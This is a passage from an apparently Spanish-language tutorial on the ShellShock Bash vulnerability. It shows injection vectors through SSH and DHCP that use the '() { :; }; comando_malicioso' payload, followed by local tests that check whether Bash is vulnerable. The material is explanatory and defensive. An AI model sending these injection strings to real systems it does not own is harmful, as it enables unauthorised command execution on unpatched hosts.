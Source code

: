 ### 2. Servicios SSH

```bash
# Através de ForceCommand en SSH
ssh user@target '() { :; }; comando_malicioso'
```

### 3. Servicios DHCP

```bash
# A través de opciones DHCP maliciosas
dhcp-option-force=114,'() { :; }; comando_malicioso'
```

### 4. Otros servicios que usan Bash

- **Qmail**: Procesamiento de correos
- **Servicios de red**: Que ejecutan scripts Bash
- **Aplicaciones web**: Que llaman a Bash indirectamente

---

## 🔍 Detección y Verificación

### Test básico de vulnerabilidad:

```bash
# Test simple para verificar si Bash es vulnerable
env 'x=() { :;}; echo vulnerable' bash -c "echo test"

# Si el sistema es vulnerable, verás:
# vulnerable
# test

# Si no es vulnerable, solo verás:
# test
```

### Test más específico:

```bash
# Test que crea un archivo temporal
env 'x=() { :;}; echo vulnerable > /tmp/shellshock_test' bash -c "echo test"

# Verificar si el archivo fue creado
if [ -f /tmp/shellshock_test ]; then
    echo "Sistema VULNERABLE a ShellShock"
    rm /tmp/shellshock_test
else
    echo "Sistema NO vulnerable"
fi
```
